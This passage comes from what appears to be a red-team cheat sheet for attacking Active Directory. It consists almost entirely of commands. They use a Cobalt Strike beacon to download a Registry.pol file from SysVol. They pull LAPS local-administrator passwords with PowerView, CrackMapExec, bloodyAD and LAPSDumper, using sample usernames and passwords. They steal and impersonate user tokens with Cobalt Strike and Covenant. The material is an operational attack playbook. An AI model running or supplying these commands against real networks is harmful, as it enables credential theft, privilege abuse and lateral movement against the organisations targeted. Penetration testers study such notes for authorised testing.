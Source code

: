```
# use bloodhound to find registry.pol file for download
beacon> download \\vault.io\SysVol\vault.io\Policies\{FDC369C2-35C2-4D97-B455-BB7839854512}\Machine\Registry.pol
```

#### Creds

Pull LAPS credentials

```
# if laps tools are installed
> powershell Get-Command *AdmPwd

# using PowerView
> Get-DomainComputer

# Using CrackMapExec
$ cme ldap vic.tim.local -u tom -p October2021 -M laps

# bloodyAD
$ python3 bloodyAD.py -d domain.local -u p@ssw0r_d -p p@ssw0r_d --host 10.90.10.1 getObjectAttributes wkstn8.domain.local

# n00py/LAPSDumper
$ python laps.py -u p@ssw0r_d -p p@ssw0r_d -l 10.90.10.1 -d domain.local
```

### Impersonation

#### Steal token

Cobalt Strike

```
# find desired PID
beacon> ps

# Steal
beacon> steal_token 4416
[+] Impersonated [...]

# revert
beacon> rev2self
```

Covenant

```
# find users/pid
> ProcessList

# impersonate
> ImpersonateUser vault\adm_ryan
```
